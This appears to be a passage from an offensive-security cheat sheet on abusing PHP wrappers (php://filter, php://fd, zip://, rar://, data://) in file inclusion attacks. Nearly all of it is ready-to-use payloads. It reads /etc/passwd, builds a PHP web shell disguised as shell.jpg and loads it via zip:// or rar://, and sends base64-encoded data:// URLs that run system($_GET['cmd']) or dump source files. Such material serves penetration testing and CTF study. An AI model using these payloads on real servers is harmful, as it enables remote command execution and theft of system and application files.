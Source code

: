 ```php
# Compresion Filter
## Compress + B64
echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=file:///etc/passwd");
readfile('php://filter/zlib.inflate/resource=test.deflated'); #To decompress the data locally
# note that PHP protocol is case-inselective (that's mean you can use "PhP://" and any other varient)
```

{% hint style="warning" %}
The part "php://filter" is case insensitive
{% endhint %}

### php://fd

This wrapper allows to access file descriptors that the process has open. Potentially useful to exfiltrate the content of opened files:

```php
echo file_get_contents("php://fd/3");
$myfile = fopen("/etc/passwd", "r");
```

You can also use **php://stdin, php://stdout and php://stderr** to access the **file descriptors 0, 1 and 2** respectively (not sure how this could be useful in an attack)

### zip:// and rar://

Upload a Zip or Rar file with a PHPShell inside and access it.\
In order to be able to abuse the rar protocol it **need to be specifically activated**.

```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php

# To compress with rar
rar a payload.rar payload.php;
mv payload.rar shell.jpg;
rm payload.php
http://example.com/index.php?page=rar://shell.jpg%23payload.php
```

### data://

```
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data:text/plain,<?php phpinfo(); ?>
http://example.net/?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```
